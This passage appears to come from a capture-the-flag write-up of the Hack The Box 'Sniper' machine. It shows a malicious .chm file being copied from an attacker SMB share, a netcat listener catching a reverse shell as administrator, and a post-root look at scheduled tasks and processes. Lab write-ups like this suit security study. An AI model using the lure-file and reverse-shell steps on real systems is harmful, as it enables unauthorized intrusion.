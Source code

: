```
PS C:\Docs> copy \\10.10.14.2\a\doc.chm .
copy \\10.10.14.2\a\doc.chm .
```

Start the Listener on port 5555 and wait for like 2 minutes.

```
# nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.151] 49690
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
sniper\administrator

```
Get your Root Flag

### `Beyond Root`

One of the point that stuck in my mind is that why putting the malicious *.chm* into `C:\Docs` would generate the reverse shell ? Initially I thought that there must be some sort of schedule task that Administrator is running and the user `Chris` might not have the enough access rights to looked into the list of schedule task setup by the Administrator. But when I got the Admin Shell, I checked out.
###### `Schedule Task Windows`
```
C:\Users\Administrator\Desktop>schtasks /query /v /fo LIST
schtasks /query /v /fo LIST
<!.....Snipped Output......!>

```

Stripped down version of the above command which is going to list just a full path of the process.
```
C:\Users\Administrator\Desktop>schtasks /query /v /fo LIST | findstr /c:"Task To Run" | findstr /v /c:"Task To Run:                          COM handler"
schtasks /query /v /fo LIST | findstr /c:"Task To Run" | findstr /v /c:"Task To Run:                          COM handler"
Task To Run:                          C:\Windows\system32\msfeedssync.exe sync
Task To Run:                          %windir%\system32\srvinitconfig.exe /disableconfigtask
Task To Run:                          %windir%\system32\appidpolicyconverter.exe 
<!-----------Snipped -----------!>
```

I couldn't find any interesting schedule tasks that points to why the *.chm* file is running and getting us the shell. Let's dive into Process

```
PS C:\Users\Administrator\Desktop> Get-WmiObject Win32_Process | Select-Object ProcessId, ProcessName, CommandLine, pid
Get-WmiObject Win32_Process | Select-Object ProcessId, ProcessName, CommandLine, pid
     6704 cmd.exe                 C:\Windows\system32\cmd.exe /c ""C:\Users\Administrator\AppData\Roaming\Microsoft\...
     6752 cmd.exe                 C:\Windows\system32\cmd.exe /c ""C:\Users\Administrator\AppData\Roaming\Microsoft\...
     6848 notepad.exe             "C:\Windows\System32\notepad.exe" "C:\Users\Administrator\AppData\Roaming\Microsof...
     6880 powershell.exe          powershell  -ep bypass -f "C:\Users\Administrator\AppData\Roaming\Microsoft\Window...

```
